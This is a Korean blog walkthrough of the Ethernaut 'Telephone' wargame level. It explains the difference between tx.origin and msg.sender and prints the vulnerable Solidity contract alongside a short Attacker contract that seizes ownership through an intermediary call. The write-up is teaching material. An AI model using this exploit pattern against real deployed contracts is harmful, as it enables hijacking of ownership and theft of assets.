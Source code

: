 문제 해설에 들어가기 전, 이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.

![대표이미지](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/OpenZeppelin/ethernaut/Heuristic%20Wave%20Ethernaut.png?raw=true)



## Telephone Problem

이번 문제는 컨트랙트의 오너십을 가져오는 문제이다.  필자의 후반부 포스팅에서는 문제에서 요구하는 개념의 대한 설명을 먼저 설명하고 솔루션을 제시했지만, 이번에는 문제를 푸는 힘을 기르기 위해 필자가 고민하는 방식대로 문제해설을 하였다.



### 코드 분석

```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Telephone이라는 생성자를 보면 owner는 msg.sender라고 선언되어 있고, changeOwner함수는 주소값[_owner]를 매개변수로 넣어서 tx.origin과 msg.sender가 같지않다면 owner가 된다는 코드다. 즉, changeOwner의 함수를 호출하여 조건만 맞춘다면 오너쉽을 가져올 수 있다.

이 문제에서 출제자는 msg.sender와 tx.origin에 대한 개념을 여러분에게 꼭 알려주고 싶어 이번 문제를 출제했다. 두개의 차이를 정확하게 알고있다면 바로 이번문제를 해결할 수 있다.

본격적을 설명을 하기전에, 본인 스스로 이유을 찾는다면 실력향상에 더 많은 도움이 된다. 사실 이번문제의 시사점은 [솔리디티 도큐먼트](https://solidity.readthedocs.io/en/v0.4.24/security-considerations.html)의 tx.origin의 위험성을 알리는 부분에 실려있는데, 필자의 게시물보다 도큐먼트를 혼자 공부하면서 문제와 씨름하는 것도 좋은 방법이다.

필자와 본격적으로 문제를 풀기전에 시중에 판매되는 이더리움 교재에서 나와있는 설명을 보고가자.

>**msg.sender**
>
>메시지를 호출한 송신자의 주소를 반환
>
>**tx.origin**
>
>트랜잭션의 송신자를 반환

위 설명 만으로는 msg.sender와 tx.origin의 차이가 감이 잘 잡히지 않을 것이다. 공통점으로는 둘다 주소값을 반환한다는 것이 있다.

이 문제의 구조를 파악하면 해결책을 찾기 수월하니, remix에서 문제로 발급받은 instance address로 telephone 컨트렉트를 호출하여 확인해보자.

![telephone 구조확인](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/telephone01.png?raw=true)

필자가 발급받은 컨트랙트를 로딩하여(RED) owner함수로 오너를 확인하면(BLUE) **Level address가 오너인 것을 알 수 있다**. 이말은 즉, Level address (EOA)주소가 msg.sender라는 것이다. 우리가 알고싶어하는 tx.origin도 트랜잭션의 송신자를 반환하는 것이니까 EOA가 반환될 수도 있고 CA가 반환될수 있다고도 생각할 수 있다. (트랜잭션은 계정, 컨트랙트 모두 만들수 있으니까)

_(이즈음에서 필자가 약간의 스포일러를 하겠다)_ 출제자가 우리에게 알려주고 싶은것은 바로 이 차이점이다. msg.sender는 EOA가 될수도 있고 CA가 될수도 있다. 그러나, tx.origin은 EOA주소만이 가능하다. 여기까지 우리는 문제를 풀 수 있는 실마리를 얻었다. 그러나 아직 그 둘의 완벽한 차이를 알게된 것은 아니다.

실마리를 통해서 우리는 이런 생각을 할 수 있다. tx.orgin은 EOA주소만이 가능하고 msg.sender는 CA계정도 가능하다면, CA로부터 해당 컨트랙트(출제문제)를 호출한다면 주어진 조건(tx.origin != msg.sender)을 통과할 수 있을 것 이다.

위 아이디어를 적용한 공격자의 코드는 아래와 같다.

```javascript
contract Attacker {

 Telephone telephone;
 
 function Attacker(address _contract) {
     telephone = Telephone(_contract);
 }
 
 function attack() public {
     telephone.changeOwner(msg.sender);
  }
}
```

공격자 컨트랙트의 생성자에 문제로 주어진 telephone 컨트랙트를 넣을수 있게 만들고, attack 함수에서 telephone 컨트랙트의  changeOwner함수를 호출하도록하면 이번 문제를 해결 할 수 있다.



필자의 경우 스택오버플로우를 뒤져가며 telephone 문제를 약 7월경에 풀었는데, 8월에 포스팅된 _(이더넛 후반부에서 많은 도움을 받은)_ [Nicole Zhu님의 블로그](https://medium.com/@nicolezhu/ethernaut-lvl-4-walkthrough-how-to-abuse-tx-origin-msg-sender-ef37d6751c8)에 tx.origin과 msg.sender에 대한 가장 설명이 잘 되어있는 그림이 있다. 그림을 보면서 자신이 맞게 이해했는지 확인해보자!



그럼, 다음번에는 5단계 Token에서 만나요! 